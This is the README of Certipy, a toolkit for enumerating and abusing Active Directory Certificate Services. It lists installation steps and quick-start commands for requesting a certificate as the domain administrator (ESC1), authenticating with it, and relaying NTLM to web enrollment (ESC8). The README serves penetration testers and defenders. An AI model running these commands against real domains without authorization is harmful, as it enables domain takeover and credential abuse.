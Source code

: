 # Certipy - AD CS Attack & Enumeration Toolkit

[![PyPI version](https://badge.fury.io/py/certipy-ad.svg)](https://badge.fury.io/py/certipy-ad)
![Python](https://img.shields.io/badge/python-3.12+-blue.svg)
![License](https://img.shields.io/github/license/ly4k/Certipy)

**Certipy** is a powerful offensive and defensive toolkit for enumerating and abusing Active Directory Certificate Services (AD CS). It helps red teamers, penetration testers, and defenders assess AD CS misconfigurations — including full support for identifying and exploiting all known **ESC1–ESC15** attack paths (excluding ESC5).

> [!WARNING]
> Use only in environments where you have explicit authorization. Unauthorized use may be illegal.

---

## 🔍 Features

- 🔎 Discover Enterprise Certificate Authorities and Templates
- 🚩 Identify misconfigurations (e.g., ESC1–ESC15)
- 🔐 Request and forge certificates
- 🎭 Perform authentication using certificates (PKINIT/Schannel)
- 📡 Relay NTLM authentication to AD CS HTTP/RPC endpoints
- 🧪 Support for Shadow Credentials, Golden Certificates, and Certificate Mapping Attacks

---

## 📚 Full Wiki & Documentation

Read the full **step-by-step usage guide**, including installation, vulnerability explanations, examples, and mitigations in the [📘 Certipy Wiki](https://github.com/ly4k/Certipy/wiki).

---

## ⚙️ Installation

Certipy supports **Python 3.12+** on both **Linux** and **Windows**. Linux is the primary supported platform, but core functionality works on Windows as well.

> [!TIP]
> **For Kali Linux Users**  
> Certipy is pre-installed in Kali under the command name `certipy-ad`.  
> The Kali package is **not maintained by the original author** and may **lag behind the latest version**.  
> For the latest features and fixes, install from PyPI manually using `pip`.

### 🐧 Linux (Debian/Ubuntu/Kali)

```bash
sudo apt update && sudo apt install -y python3 python3-venv python3-pip
python3 -m venv ~/certipy-env
source ~/certipy-env/bin/activate
pip install --upgrade pip
pip install certipy-ad
````

### 🪟 Windows (PowerShell)

```powershell
python -m venv certipy-env
certipy-env\Scripts\Activate.ps1
pip install --upgrade pip
pip install certipy-ad
```

Verify installation:

```bash
certipy -h
```

---

## 🚀 Quick Start

### Enumerate CAs and Templates

```bash
certipy find -u 'user@corp.local' -p 'Passw0rd!' -dc-ip 10.0.0.100
```

### Request a Certificate for Another User (ESC1-style)

```bash
certipy req -u 'user@domain.local' -p 'Passw0rd!' \
  -ca 'CORP-CA' -target 'CA.CORP.LOCAL' \
  -template 'ESC1' \
  -upn 'administrator@corp.local' \
  -sid 'S-1-5-21-2328196741-663698128-2762965104-500' \
  -dc-ip 10.0.0.100
```

### Authenticate with a Certificate

```bash
certipy auth -pfx ./administrator.pfx -dc-ip 10.0.0.100
```

### NTLM Relay to AD CS Web Enrollment (ESC8)

```bash
certipy relay -ca http://ca.corp.local -template DomainController
```

---

## ✅ Supported ESC Vulnerabilities

Certipy provides comprehensive support for detecting and exploiting AD CS vulnerabilities **ESC1 – ESC15** (excluding ESC5)

For detailed explanations, exploitation steps, and mitigation strategies, refer to the [Certipy Wiki](https://github.com/ly4k/Certipy/wiki).

---

## 📎 Related Tools & References

* 📘 [Certified Pre-Owned – SpecterOps](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* 🔭 [BloodHound PKI Attack Paths](https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-1-799f3d3b03cf)
* 🛡️ [Microsoft AD CS Hardening Guide](https://learn.microsoft.com/en-us/defender-for-identity/security-assessment-prevent-users-request-certificate)

---

## 🛡️ Disclaimer

This tool is designed exclusively for use in **authorized penetration testing**, **red teaming**, **security assessments**, and **security research**. **Do not use** in environments where you do not have **explicit written permission**. Unauthorized use may violate laws and ethical standards.

---

## 🤝 Contributing

Contributions are welcome! See [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines on reporting issues, improving documentation, or submitting pull requests.

---

## 🌟 Sponsors

Thanks to these generous sponsors for supporting the development of this project. Your contributions help sustain ongoing work and improvements.

<!-- sponsors-readme -->

---

## 👤 Author

Developed by [@ly4k](https://github.com/ly4k)
Contributions welcome via pull requests or issues.

---

## 📘 Wiki

📖 Visit the [**Certipy Wiki**](https://github.com/ly4k/Certipy/wiki) for detailed documentation, usage examples, ESC vulnerability breakdowns, and mitigation advice.
